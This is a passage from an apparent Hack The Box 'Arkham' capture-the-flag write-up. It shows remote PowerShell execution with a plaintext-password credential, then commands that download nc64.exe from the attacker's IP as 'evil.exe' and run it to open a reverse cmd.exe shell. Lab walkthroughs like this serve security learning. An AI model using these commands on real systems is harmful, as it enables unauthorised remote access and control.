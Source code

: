 ```

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
                             *Users                
Global Group memberships     *None                 
The command completed successfully.
```

Using the credentials, I can attempt to use remote Powershell to execute commands.

```powershell
$pass = ConvertTo-SecureString 'Zx^#QZX+T!123'-AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential ('arkham\batman', $pass)
Invoke-command -computername ARKHAM -credential $credential -scriptblock { whoami }
```

![](../../../.gitbook/assets/htb-arkham-image-10.png)

Using this, I can get another shell as `batman` via `nc.exe`.

```powershell
Invoke-command -computername ARKHAM -credential $credential -scriptblock { cmd.exe /c powershell -c wget 10.10.14.9/nc64.exe -Outfile C:/windows/tasks/evil.exe }
Invoke-command -computername ARKHAM -credential $credential -scriptblock { cmd.exe /c C:/windows/tasks/evil.exe -e cmd.exe 10.10.14.9 5555 }
```

![](../../../.gitbook/assets/htb-arkham-image-11.png)

### Read Flag

For some reason, I was the Administrator but I was unable to read the root flag, and I did not have any administrator privileges:

![](../../../.gitbook/assets/htb-arkham-image-12.png)
